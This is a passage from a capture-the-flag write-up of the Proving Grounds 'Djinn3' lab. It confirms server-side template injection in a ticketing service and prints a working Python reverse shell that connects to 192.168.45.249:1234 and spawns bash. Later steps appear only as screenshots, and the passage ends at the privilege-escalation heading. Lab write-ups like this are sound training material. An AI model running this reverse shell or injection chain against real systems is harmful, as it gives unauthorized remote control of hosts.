 In order to create tickets in the system the user has to connect to port `31337/tcp`.

## Connecting to PORT 31337/tcp as guest

![img](/assets/images/CTF/Proving_Grounds/Djinn3/port31337.png)

### Create New Ticket with SSTI Payload

![img](/assets/images/CTF/Proving_Grounds/Djinn3/SSTI.png)

Server Side Template Injection Confirmed.

### Payload to list files/directories in remote server

![img](/assets/images/CTF/Proving_Grounds/Djinn3/jinja.png)

[More Payloads](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

### Python reverse shell

```py
import socket
import subprocess
import os
import pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.45.249",1234)); os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash", "-i"])
pty.spawn("sh")
```

**Download reverse shell to the attacking machine**

![img](/assets/images/CTF/Proving_Grounds/Djinn3/revshell1.png)

**HTTP Server Log to confirm download**

![img](/assets/images/CTF/Proving_Grounds/Djinn3/httplog.png)

**Code Execution**

![img](/assets/images/CTF/Proving_Grounds/Djinn3/pyexec.png)

![img](/assets/images/CTF/Proving_Grounds/Djinn3/revshell2.png)

Reverse Shell obtained.

## Privilege Escalation
